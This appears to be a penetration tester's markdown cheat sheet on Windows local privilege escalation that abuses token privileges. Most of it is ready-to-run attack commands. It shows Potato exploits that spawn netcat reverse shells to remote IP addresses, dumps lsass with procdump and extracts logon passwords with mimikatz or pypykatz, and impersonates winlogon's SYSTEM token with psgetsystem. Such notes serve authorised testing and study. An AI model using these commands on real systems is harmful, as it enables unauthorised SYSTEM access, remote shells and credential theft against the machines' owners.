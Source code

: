 ```yaml
---
tags:
  - Local
  - Privilege-Escalation
  - SeAssignPrimaryPrivilege
  - SeBackupPrivilege
  - SeCreateTokenPrivilege
  - SeDebugPrivilege
  - SeImpersonatePrivilege
  - SeLoadDriverPrivilege
  - SeRestorePrivilege
  - SeTakeOwnershipPrivilege
  - SeTcbPrivilege
  - AD
---
```

## identify
---
```batch
whoami /priv
```
Or sysinternals

[https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)
```powershell
accesschk.exe -p
```

## Exploit
---
#### SeImpersonate & SeAssignPrimaryToken
Windows Server 2016 and under: 
**JuicyPotato** [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)
```cmd
JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.119 5555 -e cmd.exe" -t *
```
Windows Server 2019 and on:
**PrintSpoofer**: [https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)
Spawn shell over new process *need stable shell*
```cmd
PrintSpoofer.exe -i -c cmd.exe
```
Spawn revshell
```cmd
PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.14.3 8443 -e cmd"
```
**RoguePotato:** [https://github.com/antonioCoco/RoguePotato](https://github.com/antonioCoco/RoguePotato)
```
RoguePotato.exe -r <IP> -e "C:\Windows\Tasks\nc.exe <IP> <port> -e cmd.exe" -l 9999
```
**SweetPotato**: [https://github.com/CCob/SweetPotato](https://github.com/CCob/SweetPotato)
```cmd
SweetPotato.exe -p C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -a "-w hidden -enc <ENCODED REVSHELL>"
```
OR
```cmd
SweetPotato.exe -e EfsRpc -p c:\Users\Public\nc.exe -a "10.10.10.10 1234 -e cmd"
```
**GodPotato**: [https://github.com/BeichenDream/GodPotato](https://github.com/BeichenDream/GodPotato)
```cmd
GodPotato.exe -cmd "cmd /c whoami"
```
```cmd
GodPotato -cmd "nc -t -e C:\Windows\System32\cmd.exe 192.168.1.102 2012"
```

#### SeDebug
___
**Dumping lsass**

```cmd
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
or with task manager
![](../../../assets/Pasted%20image%2020250719100303.png)

read with mimikatz or pypykatz

```plaintext
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```

```
pypykatz lsa minidump lsass.dmp
```

**Elevating to SYSTEM**

[https://github.com/decoder-it/psgetsystem](https://github.com/decoder-it/psgetsystem)

Using psgetsystem we can launch a child process that inherits the token of the parent process.


```
PS C:\tools> tasklist 

Image Name                     PID Session Name        Session#    Mem Usage
========================= ======== ================ =========== ============
System Idle Process              0 Services                   0          4 K
System                           4 Services                   0        116 K
smss.exe                       340 Services                   0      1,212 K
csrss.exe                      444 Services                   0      4,696 K
wininit.exe                    548 Services                   0      5,240 K
csrss.exe                      556 Console                    1      5,972 K
winlogon.exe                   612 Console                    1     10,408 K
```

We can target the `winlogon.exe` service because its running as SYSTEM.

We can either 1. launch cmd.exe as SYSTEM if we have GUI access or 2. execute an exe to get a reverse shell, add ourselves to a group, or anything else.


```powershell
import-module .\psgetsys.ps1
ImpersonateFromParentPid -ppid 612 -command C:\Windows\Tasks\elev.exe
```

that process will launch with the integrity of the parent. (Hopefully SYSTEM)
